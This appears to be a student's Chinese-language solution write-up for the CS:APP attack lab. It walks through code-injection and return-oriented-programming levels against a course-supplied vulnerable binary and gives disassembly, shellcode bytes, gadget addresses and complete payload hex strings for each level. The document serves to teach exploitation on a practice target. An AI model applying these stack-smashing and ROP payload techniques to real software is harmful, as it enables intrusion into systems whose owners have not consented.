

# attack-lab
## Code-injection-Attacks
### Level-1
- `test`函数汇编代码如下:
```asm
   0x0000000000401968 <+0>:	sub    $0x8,%rsp
   0x000000000040196c <+4>:	mov    $0x0,%eax
   0x0000000000401971 <+9>:	call   0x4017a8 <getbuf>
   0x0000000000401976 <+14>:	mov    %eax,%edx
   0x0000000000401978 <+16>:	mov    $0x403188,%esi
   0x000000000040197d <+21>:	mov    $0x1,%edi
   0x0000000000401982 <+26>:	mov    $0x0,%eax
   0x0000000000401987 <+31>:	call   0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:	add    $0x8,%rsp
   0x0000000000401990 <+40>:	ret

```
- `get_buf`的汇编代码如下:
```asm
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	ret
```
- `gdb`添加命令行参数: `set args 命令行参数`
- 只用找到`touch1`的指令地址即可,`touch1`函数的地址为`0x4017c0`
- 总结一下`ret`指令和`push`指令的行为:

|指令名称|取指|译码|执行|访存|写回|更新`PC`|
|---|---|---|---|---|---|---|  
`push`|取得`icode`,`ifun`和寄存器|取得`R[%rx] = valA`,`R[%rsp] = valB`|`valueE = valueB - 8`|`M[valueE] = valueA`(存储的就是旧的值)|`R[%rsp] = valueE`|更新`PC`|
`ret`|取得`icode`,`ifunc`|取得`valueA = valueB = R[%rsp]`|`valueE = valueB + 8`|`valeM = M[valueA]`|`R[%rsp] = valueB`|`PC = valueM`|

- 值得注意的就是入栈的时候相当于`push %rsp`,对于`ret`指令而言,指向`ret`之前一般都改变了`%rsp`的值,所以此时的跳转位置就是取出`rsp`的值,并且注意此时取出的值就是原来的`rsp`的值`valueM`而不是`valueE`
  
- 所以以这一个`level`为例: `test`函数首先把`rsp - 8`,并且在函数中调用`getbuf`函数,`getbuf`函数中把`rsp - 0x28`其实此时`rsp + 0x28`中存储的就是原来的下一条指令的地址(`0x401760`),所以需要注意需要改变的就是`rsp + 40`的位置(审题!!!)
- 另外由于获取数字的时候使用小端法的形式,所以前面的数字在低位,所以需要写成`c0 17 40 00 00 00 00 00 00 00`
- 最终答案为: [`level-1答案`](target1/level-1.txt)
### Level-2
- 需要的指令的字节级表示:
```asm
0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret
```
- 这一个题目需要重点理解 `pushq` 和 `ret` 指令的作用,如果使用如下代码进行两次`ret`:
```text
48 c7 c7 fa 97 b9 59
c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
ec 17 40 00 00 00 00 00
```
- 重点理解`ret`指令在`addq %rsp`之后执行,并且会把 `%rsp` 在原来的基础上 `- 8` , 也就是 `PC = *rsp++ , jump PC`
- `%rip`寄存器记录着当前执行指令的地址,地址指向指令的字节式表示
- 如果使用上面一种形式就会产生如下后果:
- 下面是`ret`指令的利用:

- 如果使用上面指令,那么就会导致如下后果(访问未知地址):

- 所以执行第二次`ret`指令的时候需要`rsp`执行最大深度的下面`8`个单位的位置,所以这里可以使用`pushq`指令,`pushq`指令一方面可以移动`rsp`,另外一个方面可以把某一个值移动到栈底
- 正确的跳转方式如下:

- 正确答案:
```text
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00
78 dc 61 55 00 00 00 00
```
### Level-3
- `touch3`的地址:
```text
0x00000000004018fa
```
- `Cookie`: `0x59b997fa`
- 思路: 这里如果把数据存储在原来的`getbuf`的栈的位置,那么就会导致数据被释放,所以可以尝试把数据放在`test`的栈上,但是注意`test`的栈虽然存储数据会到时栈帧被破坏,但是`test`不会被调用所以内存可以随便使用,其实确定栈内存可以任意使用即可
- `test`栈的地址如下:
```text
0x5561dca0  可以存储跳转位置
0x5561dca8  可以存储目标字符串
0x5561dcb0  存储指令(移动字符串到 `%rdi` 中)
0x5561dca8  `pushq touch3`指令
最后可以使用 `ret`指令再次回调`touch3`
```
- 需要的汇编代码如下:
```asm
0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	push   $0x4018fa
   c:	c3     
```
- 最终的答案:
```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b8 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00 00 00 00 00 00 00 00
48 c7 c7 a8 dc 61 55 
68 fa 18 40 00
c3
```
- 对于 `%rsp` 指针的讨论可以参考之前对于`ret`指令的说明

## Return-Oriented Programming
### Level-2
- 需要实现和上面一个`Level-2`同样的效果,所以需要的汇编代码如下:
```asm
0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret
```
- 对于本系列的实验,由于不可以使用插入汇编代码字节级别实现的片段(也就是不可以跳转到自己实现的代码片段位置,只可以利用已知的代码来进行操作)
- 这一个`phase`的一个重点就是`popq`的用法
- 总结: `popq`

指令名称|取指|译码|执行|访存|写回|
---|---|---|---|---|---|
`popq`|取得`icode , func , ra`|`valueA = valueB = R[%rsp]`|`valueE = valueB + 8`|取得`M[valueA] = valueM`(也就是取得原来的栈顶元素)|`R[ra] = valueM`,`R[%rsp] = valueE`|

- 所以利用`popq`指令可以进行栈顶元素和某一个寄存器中元素的互换,所以可以利用这一个性质获取到`cookie`(也就是把`cookie`存储在特定的位置,之后利用`popq`把元素赋值给`cookie`即可)(赋值就是原来的值)

- 所以步骤分为如下几步:
  - `popq %rax`
  - `mov %rax,%rdi`
  - `ret`
- 最终答案为(注意这一个过程中`%rsp`的变化):
```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
### Level-3
- 本题的一个难点在与如何设计好`cookie`保存的位置,如果`cookie`保存的位置在`%rsp`保存位置的下面,那么调用`touch3`的时候就会导致栈空间损失,所以就会找不到适当的位置,从而引发段错误
- 本题可以使用偏移量来进行最后`cookie`的赋值的
- 最终答案如下(太难想了):
```text
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00   /* 补齐至40 */

/* 1. 配置 rsi */
/* 首先使用popq %rax 指令把 %rax 设置为 0x20
   之后利用一系列寄存器操作把 %rax的值赋值给 %rsi */
ab 19 40 00 00 00 00 00  /* popq rax 0x4019ab 0x4019a7 + 4 */
/* rsp string 偏移为 32 */ 20 00 00 00 00 00 00 00   

dd 19 40 00 00 00 00 00  /* mov eax, edx */
70 1a 40 00 00 00 00 00  /* mov edx, ecx */
ea 19 40 00 00 00 00 00  /* mov ecx, esi */

/* 2. 配置 rdi */
/* 把 %rdi设置为距离 cookie 32个字节位置的开始位置,关注 %rsp 的移动情况 */
06 1a 40 00 00 00 00 00   /* 0x401a06  0x401a03 + 3 mov %rsp,%rax  */ 
/* 从这开始偏移为 0 */ a2 19 40 00 00 00 00 00  /* 0x4019a2  movq %rax, %rdi 0x4019a0 + 2 */

/* 3. 加法运算 将字符串的地址保存进 rax */
/* 找到 cookie 的地址 并且保存在 rax 中 */
d6 19 40 00 00 00 00 00  /* lea    (%rdi,%rsi,1),%rax */

/* 4. 将string address 赋给 rdi */
a2 19 40 00 00 00 00 00  /* 0x4019a2  movq %rax, %rdi 0x4019a0 + 2 */

/* 5. 调用touch3 */ 
fa 18 40 00 00 00 00 00   /* 0x4018fa touch3 */ 

/* 32 */    35 39 62 39 39 37 66 61 
/* 末尾0 */    00 00 00 00 00 00 00 00
```
- 综合答案:
```text
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
20 00 00 00 00 00 00 00   
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
ea 19 40 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61 
00 00 00 00 00 00 00 00
```